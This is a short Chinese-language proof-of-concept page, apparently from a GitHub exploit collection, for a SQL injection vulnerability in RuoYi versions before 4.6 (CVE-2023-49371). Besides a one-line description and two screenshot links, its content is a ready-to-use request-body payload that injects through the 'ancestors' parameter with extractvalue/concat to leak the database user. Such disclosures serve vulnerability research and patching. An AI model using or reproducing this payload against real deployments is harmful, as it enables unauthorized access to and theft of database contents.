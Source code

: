 ## RuoYi4.6.0 SQL注入漏洞CVE-2023-49371

若依在4.6版本之前存在SQL注入漏洞，攻击者通过该漏洞可以进行SQL注入利用，从而获取数据库中的敏感信息

## poc
```
DeptName=1&deptid =100&ParentId=12&Status= 0&ordernum =1&ancestors=0)or(extractvalue(1,concat((select user())))); #
```
![image](https://github.com/wy876/POC/assets/139549762/7c110048-af68-42e5-ba3b-ffb69bb28f17)

![image](https://github.com/wy876/POC/assets/139549762/653098c3-5c6d-45a9-b50a-850b48475662)
